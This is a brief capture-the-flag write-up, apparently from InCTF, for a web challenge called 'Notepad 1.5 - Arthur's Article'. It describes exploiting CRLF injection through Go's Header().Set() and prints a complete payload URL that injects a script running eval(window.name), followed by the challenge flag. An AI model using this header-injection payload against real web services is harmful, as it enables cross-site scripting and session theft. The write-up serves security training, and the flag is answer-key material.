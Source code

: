 # Notepad 1.5 - Arthur's Article

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it. 

### Challenge File
[Source](./Handout/arthursarticle.zip)

### MD5 Hash: 
`0bac8f0037b5c3da16c78a24e0a0932e`


### Short Writeup

* Exploit CRLF in go's Header().Set() library to inject arbitrary html using the header name. 

* `http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E`


### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{red_dead_rezoday_ialmvwoawpwe}`